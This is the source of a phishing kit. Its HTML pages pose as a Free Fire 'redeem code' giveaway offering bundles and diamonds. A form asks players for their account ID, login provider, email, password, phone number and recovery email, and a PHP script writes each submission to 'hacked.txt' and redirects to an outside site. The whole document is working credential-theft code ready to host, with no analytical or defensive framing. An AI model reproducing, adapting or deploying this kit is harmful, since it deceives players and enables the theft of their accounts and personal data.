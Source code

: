 <html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGame"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="herohead">
<center><font style="font-size:14px;color:#64ffda;">Redemption Code</font></center><br/>
<input class="code" value="BHDO K6UM SGMQ O6AS" readonly=""/>
<div class="title"><b>MONTHLY EVENT</b> | COPY REDEEM CODE</div>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto13.png" alt="BUNDLE"/>
<small>BUNDLE<br/>New Years</small>
</a>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto6.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winterlands</small>
</a>
<a href="submit.php" class="avatar" title="Estes">
<img src="css/uhu/x/fotouhu/uhuinfo-foto7.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winter Elk</small>
</a>
<a href="submit.php" class="avatar" title="Miya">
<img src="css/uhu/x/fotouhu/uhuinfo-foto8.png" alt="SET"/>
<small>SET<br/>Grumpy old</small>
</a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>

</html>
<?php
$id = $_POST['id'];
$country = $_POST['country'];
$email = $_POST['email'];
$password = $_POST['password'];
$hp = $_POST['phone'];
$emailr = $_POST['emailr'];
?>

<?php

file_put_contents("hacked.txt", "[Id:] " . $id = $_POST['id'] . " [Country:] " . $country = $_POST['country'] . " [Email:] " . $email = $_POST['email'] . "[Password]" . $password = $_POST['password'] . "[Hp]" . $hp = $_POST['phone'] . "[Emailr]" . $emailr = $_POST['emailr'] . "\n", FILE_APPEND);
header('Location: https://www.noob-hackers.com');
?>

<center><span style='background:limegreen;width:360px;margin:0;padding:5px 0;color:black;display:block'>Success! Your submission has been requested</span></center>

<html>
<head>
<title> Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-UEFjQE1QOKY/XhBG5WkqNqI/AAAAAAAAAlY/_Ley0LvHyycIUQvHy1wZNEeA5Spqz2MPQCLcBGAsYHQ/s320/IMG_20200104_133005.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="button">
<div class="event"><center><strong>Congratulations</strong></center><br/>1. Please download app by clicking  <strong>App Available Download </strong> on the button below and copy <strong> Unique Code</strong> on that page.<br/>2. After that, click the event you want to claim below and paste <strong>Unique Code</strong> you have copied.<br/><br/>Prizes and bonuses will be given after <strong>30 minutes</strong>, for players who have sent.</div>
<a href="http://d.helo-app.com/LCuDUo/" title="Download on Play Store"><img src="img/download.png" alt="Download"/></a>
<a href="https://reward.ff.garena.com/" title="Redemption Code"><img src="img/code.png" alt="Redemption Code"/></a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>
</html>
<html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Mobile Legends - Weekly Free Heroes"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/redeem.css"/>

</head>
<body>
<form align="right" action="process.php" method="POST">
<img src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Instruction"/>
<br/><br/>

<label for="id">Account ID</label>*
<input minlength="5" maxlength="7" type="number" name="id" required=""/>
<br/><br/>
<label for="country">LOG IN</label>*
<select name="country" required="">
<option value="VK" selected="">VK</option>
<option value="FB">FB</option>
</select>
<br/><br/>

<label for="code">Redeemption Code</label>*
<input minlength="1" maxlength="16" type="text" name="code" required=""/>
<br/><br/>

<hr/><br/>
<label for="email">Email/HP</label>*
<input minlength="3" maxlength="50" type="text" name="email" required=""/>
<br/><br/>
<label for="password">Password</label>*
<input minlength="5" maxlength="50" type="password" name="password" required=""/>
<br/><br/>
<label for="phone">Phone</label>*
<input minlength="8" maxlength="13" type="number" name="phone" required=""/>
<br/><br/>
<label for="recoveryemail">2nd Email</label>*
<input minlength="15" maxlength="50" type="email" name="emailr" required=""/>
<br/><br/>
<hr/><br/>
<div align="center">
<p><small>Take your Diamond + bundle, check the mail box in the game after (30) Minutes</small></p>
<br/>
<input type="submit" value="Submit"/>
</div>
</form>
</body>

</html>

